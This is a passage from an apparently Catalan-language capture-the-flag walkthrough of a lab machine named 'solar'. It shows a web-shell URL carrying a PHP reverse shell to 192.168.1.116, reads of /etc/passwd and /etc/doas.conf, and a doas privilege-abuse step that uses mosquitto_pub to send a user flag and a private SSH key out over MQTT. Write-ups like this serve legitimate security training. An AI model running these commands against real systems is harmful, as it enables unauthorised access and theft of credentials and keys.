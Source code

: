 ```
https://www.solar.nyx/records/shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.1.116%22%2C12345%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

Ja tenim `shell` amb `www-data`.

![alt text](../../../assets/images/solar/image-13.png)

## www-data a Lenam

Fem el tractament de la TTY.

```bash
$ cat /etc/passwd|grep sh
root:x:0:0:root:/root:/bin/bash
lenam:x:1000:1000:,,,:/home/lenam:/bin/bash
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
julian:x:1001:1001::/home/julian:/bin/sh

$ cat /etc/doas.conf
permit nopass www-data as lenam cmd /usr/bin/mosquitto_pub
permit lenam as julian cmd /bin/kill
permit setenv { PATH } julian as root cmd /usr/local/bin/backups

```

Podem executar `mosquitto_pub` com l'usuari `lenam` mitjançant `doas` sense contrasenya.

### Obtenir `user.txt` i `id_ed25519` de lenam

Trobem la flag `/home/lenam/user.txt` i també algunes claus SSH. Ens subscrivim al topic `filtrate` al client MQTT i executem els següents comandaments.

```bash
doas -u lenam /usr/bin/mosquitto_pub -L mqtt://5up3r:bloods@localhost:1883/filtrate -f /home/lenam/user.txt
doas -u lenam /usr/bin/mosquitto_pub -L mqtt://5up3r:bloods@localhost:1883/filtrate -f /home/lenam/.ssh/id_ed25519
```